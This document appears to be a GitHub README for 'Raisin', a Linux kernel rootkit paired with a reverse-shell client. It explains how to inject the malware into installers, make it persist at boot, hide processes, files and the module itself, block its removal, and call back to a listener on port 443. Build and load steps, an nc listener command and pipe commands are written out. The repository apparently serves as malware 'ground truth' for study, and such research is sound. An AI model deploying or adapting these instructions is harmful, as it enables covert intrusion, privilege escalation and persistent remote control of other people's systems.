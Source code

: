 # Raisin Malware Ground Truth

<img src="images/angry_raisin.png" width="200">

Raisin can be download at https://github.com/asuar078/raisin, visit page
to see instructions with markdown translated.

The raisin malware is a combination rootkit and reverse shell application. The
raisin malware uses the LKM created by [Maxim
Biro](https://github.com/nurupo/rootkit). Grape is a continuously running client
application that will launch a reverse shell and can then be used to send
commands to the LKM. The commands listed below, include gaining
root access, hiding process, files and more.

The rootkit only works on **Linux kernels up to 4.4.0-31** and has
 architecture-specific code in the rootkit which is implemented only for **x86**/
 **x86-64** architectures. The raisin malware was tested on a *Ubuntu 14.04* and
*Ubuntu 16.04* VM. The reverse shell IP on the default build
is set to the VM IP of `10.0.2.15` to change edit line `42` of grape.c.

## Infection Method

The intention is to inject raisin into another download that requires root
privileges to install. The installer will be altered to create the kernel module
and grape client, then add the module to the /etc/modules file, and create a
 startup file for grape so both automatically run program on Linux startup.

## Commands

| Commands         | Description   |
| ---------------- |:-------------:|
| root             | Grants you root shell access. Will happen automatically.|
| hpid $PID        | Hides the specified PID.|
| unpid $PID       | Unhides the specified PID.|
| hfile $FILENAME  | Hides the specified FILENAME globally. Must be a filename without any path|
| unfile $FILENAME | Unhides the specified FILENAME.|
| hide             | Hides the rootkit LKM.|
| unhide           | Unhides the rootkit LKM.|
| protect          | Protects the rootkit from rmmod.|
| unprotect        | Disables the rmmod protection.|
| reverse $IP      | Sends start command to begin reverse shell at IP address, port is 443|
| touch            | Creates a pipe in /opt. A good test to see if root access is working|

## Instructions

1. Run `make` to create rootkit and grape client. Will need to install build
essentials if not already installed `apt-get install build-essential`
2. Load the rootkit using `sudo insmod rootkit.ko`. The rootkit will hide itself
so it can't be seen with `lsmod` till the `unhide` command is given.
3. Open a listener for the reverse shell using `sudo nc -lvp 443`. The default
build target IP is set for default VM IP of `10.0.2.15`.
4. Start the grape client `./grape`. If no internet access is available grape
will shutdown. If you wish to remove this simple delete line `74-75` in grape.c
and recompile.
5. The reverse shell is now active and can be used to send commands to the host
machine.
6. In the `/tmp` directory a pipe is created named `grape_fifo`. Sending `echo -n`
commands to this pipe will allow access to rootkit and other functions.

## Examples Commands

In order to avoid errors with c strings add the '\0' to the end of the line if using two words

```
echo -n "touch" > grape_fifo
echo -n "unhide" > grape_fifo
echo -n "hfile ../test.txt\0" > grape_fifo
echo -n "reverse 192.168.1.1\0" > grape_fifo
```

## Notes

* For **hfile** and **unfile** the path to the file must be from the perspective of the application where it was started.
* grape will automatically close if no internet access is available.
* Default build reverse shell IP address is set to `10.0.2.15` the default VM
IP for testing in a VM, port `443`.
